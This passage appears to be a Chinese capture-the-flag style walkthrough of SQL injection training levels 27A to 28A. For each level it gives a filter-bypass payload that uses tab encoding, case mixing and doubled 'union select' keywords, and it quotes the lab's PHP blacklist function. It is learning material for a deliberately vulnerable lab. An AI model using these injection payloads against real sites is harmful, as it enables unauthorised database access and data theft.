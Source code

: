 ![8](/img/2018-08-17/8.png)
##### 第二十七A关
和二十七关一样，单引号边双引号，用二十七关的方法即可绕过
```
id=0"%09UnIoN%09sElEcT%091,database(),3%09and%09"1"="1
```
##### 第二十八关
这一关过滤了`union select`，所以要吧这个双写，把过滤代码的注释去掉要再写一次select
```
id=1')%09uniunion%09selselectectoN%09SeLeCt%091,database(),3%09and%09('1'='1
```
##### 第二十A关
源代码把二十八关前面的都注释了，保留了最后一个
```
function blacklist($id)
{
//$id= preg_replace('/[\/\*]/',"", $id);	//strip out /*
//$id= preg_replace('/[--]/',"", $id);		//Strip out --.
//$id= preg_replace('/[#]/',"", $id);		//Strip out #.
//$id= preg_replace('/[ +]/',"", $id);	    	//Strip out spaces.
//$id= preg_replace('/select/m',"", $id);	   //Strip out spaces.
//$id= preg_replace('/[ +]/',"", $id);	    	//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out spaces.
return $id;
}
```
直接双写`union select`
```
id=1') uniounion selectn select 1,database(),3 and ('1'='1 
```
##### 第二十九关
<b style="font-size: 30px">emmm......</b>